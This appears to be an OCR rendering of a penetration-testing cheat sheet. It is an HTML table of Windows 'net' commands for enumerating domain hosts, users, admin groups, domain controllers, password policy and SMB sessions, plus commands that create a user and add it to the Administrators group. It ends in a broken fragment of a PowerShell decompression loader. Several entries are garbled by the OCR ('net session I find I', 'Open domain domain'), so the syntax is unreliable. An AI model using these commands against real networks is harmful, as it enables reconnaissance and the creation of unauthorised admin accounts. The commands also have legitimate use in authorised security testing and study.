 
<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">net view /domain</td>
       <td style="text-align:left">Current domain host </td>
     </tr>
     <tr>
       <td style="text-align:left">net view /domain: [MYDOMAIN]</td>
       <td style="text-align:left">hosts in [MYDOMAIN]</td>
     </tr>
     <tr>
       <td style="text-align:left">net user /domain</td>
       <td style="text-align:left">All users of the current domain</td>
     </tr>
     <tr>
       <td style="text-align:left">net user user pass /add</td>
       <td style="text-align:left">Add user</td>
     </tr>
     <tr>
       <td style="text-align:left">net localgroup &quot;Administrators&quot; user /add</td>
       <td style="text-align:left">Add user to Administrators</td>
     </tr>
     <tr>
       <td style="text-align:left">net accounts /domain</td>
       <td style="text-align:left">Domain password policies</td>
     </tr>
     <tr>
       <td style="text-align:left">net localgroup &quot;Administrators&quot;</td>
       <td style="text-align:left">List of Local Admins</td>
     </tr>
     <tr>
       <td style="text-align:left">net group /domain</td>
       <td style="text-align:left">List of domain groups</td>
     </tr>
     <tr>
       <td style="text-align:left">net group &quot;Domain Admins&quot; /domain</td>
       <td style="text-align:left">List of Admin users in the domain</td>
     </tr>
     <tr>
       <td style="text-align:left">net group &quot;Domain Controllers&quot; /domain</td>
       <td style="text-align:left">List of DCs for the current domain</td>
     </tr>
     <tr>
       <td style="text-align:left">net share</td>
       <td style="text-align:left">SMB share</td>
     </tr>
     <tr>
       <td style="text-align:left">net session I find I &quot;\&quot;</td>
       <td style="text-align:left">List of active SMB sessions</td>
     </tr>
     <tr>
      <td style="text-align:left">net user user /ACTIVE:yes /domain</td>
       <td style="text-align:left">Open domain domain</td>
     </tr>
     <tr>

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"